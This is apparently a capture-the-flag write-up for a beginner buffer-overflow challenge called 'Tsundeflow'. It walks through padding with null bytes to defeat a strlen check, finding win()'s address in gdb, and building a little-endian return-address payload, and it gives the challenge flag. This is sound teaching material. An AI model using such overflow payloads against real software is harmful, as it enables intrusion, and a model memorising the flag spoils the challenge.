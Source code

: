 # Tsundeflow
The first of the pwn binaries, this one is the classical buffer overflow problem in CTFs. Beginner-friendly, to an extent!

## Challenge Text
```
This one is a handful.

`nc pwn2.chal.gryphonctf.com 17343`

_Creator - @LFlare_
```

## Setup
1. Build both binaries with `cd generate && make`.
2. Build and run server docker image with `cd service && ./build.sh`.

## Solution
As the simplest pwn challenge, this one is solvable by overflowing the address of `win()` to the `RET` address on the buffer. Calculating the amount of junk before reaching `RET` is as simple as `32` size of buffer + `4` address of the stack frame pointer, to reach `36`.

There is however, one more catch. The usage of `strlen` to check for buffer overflows, but wait! `strlen` counts characters in a `char[]`, and `char[]` ends with a `\x00` null byte, so we can trick the program into thinking we have lesser characters than there really is! So, we have to use `36` bytes of `\x00`.

Thus, by giving `36` bytes, we get to the `RET` address, which we will populate with `win()`'s address

Now, to find the address of `win()`, we can load it up in `gdb`,

    # gdb tsundeflow
    GNU gdb (Ubuntu 7.11.1-0ubuntu1~16.04) 7.11.1
    Copyright (C) 2016 Free Software Foundation, Inc.
    License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
    This is free software: you are free to change and redistribute it.
    There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
    and "show warranty" for details.
    This GDB was configured as "x86_64-linux-gnu".
    Type "show configuration" for configuration details.
    For bug reporting instructions, please see:
    <http://www.gnu.org/software/gdb/bugs/>.
    Find the GDB manual and other documentation resources online at:
    <http://www.gnu.org/software/gdb/documentation/>.
    For help, type "help".
    Type "apropos word" to search for commands related to "word"...
    gdb> p &win
    $1 = (<text variable, no debug info> *) 0x80484eb <win>

Bingo! Now all we have to do is code it little-endian and submit it as our payload with the junk data. `0x80484eb` becomes `\xeb\x84\x04\x08`.

Another way of getting the address involves [pwntools](https://github.com/Gallopsled/pwntools), which is represented in the [solutions](solution/solve.py).

### Flags
`GCTF{51mpl3_buff3r_0v3rfl0w_f0r_75und3r35}`

